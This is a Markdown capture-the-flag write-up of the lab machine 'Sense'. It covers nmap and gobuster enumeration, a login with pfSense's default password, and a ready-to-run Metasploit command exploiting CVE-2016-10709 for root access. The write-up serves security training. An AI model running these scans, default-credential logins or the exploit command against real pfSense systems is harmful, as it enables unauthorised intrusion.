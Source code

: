 ```yaml
---
title: Sense
published: true
layout: post
---
```


<br />

---------------
Sense, while not requiring many steps to complete, can be challenging for some as the proof of concept exploit that is publicly available is very unreliable. An alternate method using the same vulnerability is required to successfully gain access. 

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/5Aygbf0gCd8?si=KYH7p02ZEm3hXInX" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.10.60 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn
sudo nmap -sU 10.10.10.60 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn
```

![](/assets/Sense/1.png)

<br />
<br />
<br />

There are **2 open ports**:
+ **80/tcp**
+ **443/tcp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.60 -p 80,443 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```

![](/assets/Sense/2.png)

<br />
<br />
<br />

We can see that the services correspond to:
+ **80/tcp lighttpd 1.4.35**
+ **443/tcp lighttpd 1.4.35**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.60 -p 80,443 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```
<br />

This scan didn't return any relevant information.

<br />

------

<br />
### Foothold

Port 80 on this machine redirects to the port 443, so we can focus on this port. This machine will be a bit tricky if we don't use the right wordlists.

<br />

The first thing we can see when visiting the websites is a **login panel**. We have no credentials, the default ones didn't work.

<br />

![](/assets/Sense/3.png)

<br />
<br />
<br />

After a bit of enumeration, it's time for **directory and file enumeration**:

```bash
gobuster dir -u https://10.10.10.60:443 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php -o gobuster_dir_and_file_enum_443.txt -t 25 -r -k
```

<br />

It's vital that we use this wordlist or the *directory-list-2.3-big.txt* wordlist, because it contains the required entry, which is ***system-users***, let's see what this site contains:

<br />

![](/assets/Sense/4.png)

<br />
<br />
<br />

If we look in the Internet, we will find that the default password for pfSense is, for the sake of redundancy, *pfsense*. Also, we have to input the username in lowercase:

<br />

![](/assets/Sense/5.png)

<br />
<br />
<br />

Great! We have logged in, and we have a version number, let's search for exploits:

```bash
searchsploit pfsense 2.1.3
```

<br />

![](/assets/Sense/6.png)

<br />
<br />
<br />

There's only one exploit, however, it doesn't work. But we can search for this vulnerability to see if we find another exploit:

<br />

![](/assets/Sense/7.png)

<br />
<br />
<br />

We found two pieces of information, the CVE, which is **CVE-2016-10709**, and that there's a **Metasploit module** for this exploit, so let's try it:

```bash
msfconsole -x "use exploit/unix/http/pfsense_graph_injection_exec; set USERNAME rohit; set lhost tun0; set rhosts 10.10.10.60; run"
```

![](/assets/Sense/8.png)

<br />
<br />
<br />

We have gained access as **root**! So we just have to print the flags:

<br />

![](/assets/Sense/9.png)

<br />
<br />
<br />
